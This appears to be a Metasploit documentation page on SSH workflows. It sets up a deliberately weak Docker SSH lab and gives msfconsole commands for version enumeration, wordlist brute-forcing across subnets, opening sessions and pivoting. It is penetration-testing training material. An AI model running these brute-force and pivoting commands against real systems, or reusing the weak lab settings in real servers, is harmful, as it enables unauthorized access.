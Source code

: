## SSH Workflows

SSH, also known as Secure Shell or Secure Socket Shell, is frequently found on port 22/TCP. The protocol allows for SSH clients to securely connect to a running SSH server to execute commands against, the protocol also supports tunneling network traffic - which Metasploit can leverage for pivoting purposes.

Metasploit has support for multiple SSH modules, including:

- Version enumeration
- Verifying/bruteforcing credentials
- Opening sessions
- Pivoting support

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```msf
msf > search ssh
```

### Lab Environment

There are multiple SSH servers to choose from and install on a host machine, including:
- OpenSSH - OpenBSD Secure Shell, most popular
- Dropbear

It is also possible to use [Docker](https://www.docker.com/). First create a new `Dockerfile`:

```docker
FROM alpine:latest

RUN apk add --update
RUN apk --no-cache add openssh
RUN ssh-keygen -A
RUN echo 'root:toor' | chpasswd

RUN echo $' AuthorizedKeysFile .ssh/authorized_keys\n\
GatewayPorts no \n\
X11Forwarding no \n\
Subsystem       sftp    /usr/lib/ssh/sftp-server \n\
PasswordAuthentication yes \n\
AllowTcpForwarding yes \n\
PasswordAuthentication yes \n\
AllowTcpForwarding yes' > /etc/ssh/sshd_config

RUN echo "KexAlgorithms diffie-hellman-group1-sha1"  >> /etc/ssh/sshd_config

RUN addgroup -g 700 test_user \
    && adduser -G test_user -D -u 700 -S -h /home/test_user -s /bin/sh test_user
RUN echo -n 'test_user:password123' | chpasswd

EXPOSE 22

CMD ["/usr/sbin/sshd","-D"]
```

Build and run:

```
docker build --tag ssh_lab:latest - < Dockerfile
docker run --rm -it --publish 127.0.0.1:2222:22 ssh_lab:latest
```

It should now be possible to test the SSH login from msfconsole:

```msf
msf > use scanner/ssh/ssh_login
msf auxiliary(scanner/ssh/ssh_login) > run ssh://test_user:password123@127.0.0.1:2222

[*] 127.0.0.1:2222 - Starting bruteforce
[+] 127.0.0.1:2222 - Success: 'test_user:password123' 'uid=700(test_user) gid=700(test_user) groups=700(test_user),700(test_user) Linux 5a26fe63abef 5.10.25-linuxkit #1 SMP Tue Mar 23 09:27:39 UTC 2021 x86_64 Linux '
[*] SSH session 1 opened (127.0.0.1:57318 -> 127.0.0.1:2222 ) at 2022-04-23 01:25:01 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Note that TCP forwarding requires the `AllowTcpForwarding` option to be enabled in the server's configuration file, which is often the default. If the option is disabled or the more specific `PermitOpen` option does not allow the connection to be made, the connection will fail with the `administratively prohibited` error.

### SSH Enumeration

Enumerate SSH version:

```
use auxiliary/scanner/ssh/ssh_version
run ssh://127.0.0.1
```

### SSH Bruteforce

Brute-force host with known user and password list:

```
use scanner/ssh/ssh_login
run ssh://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:

```
use scanner/ssh/ssh_login
run ssh://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:

```
use scanner/ssh/ssh_login
run cidr:/24:ssh://user:pass@192.168.222.0 threads=50
run cidr:/24:ssh://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

### SSH Login Session

If you have valid SSH credentials the `ssh_login` module will open a Metasploit session for you:

```
use scanner/ssh/ssh_login
run ssh://user:pass@172.18.102.20
```

Reusing SSH credentials in a subnet:

```
use scanner/ssh/ssh_login
run cidr:/24:ssh://user:pass@192.168.222.0 threads=50
```

Using an alternative port:

```
use scanner/ssh/ssh_login
run ssh://user:pass@192.168.123.6:2222
```

### SSH Pivoting

It is only possible to perform SSH Pivoting if the remote target has the `AllowTcpForwarding` option be enabled in the server's configuration file, which is often the default. If the option is disabled or the more specific `PermitOpen` option does not allow the connection to be made, the connection will fail with the `administratively prohibited` error.

Like Meterpreter, it is possible to [port forward through a Metasploit SSH session](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/ssh/ssh_login.md#session-capabilities):

```
route add 172.18.103.0/24 ssh_session_id
```

To a route for the most recently opened Meterpreter session:

```
route add 172.18.103.0/24 -1
```

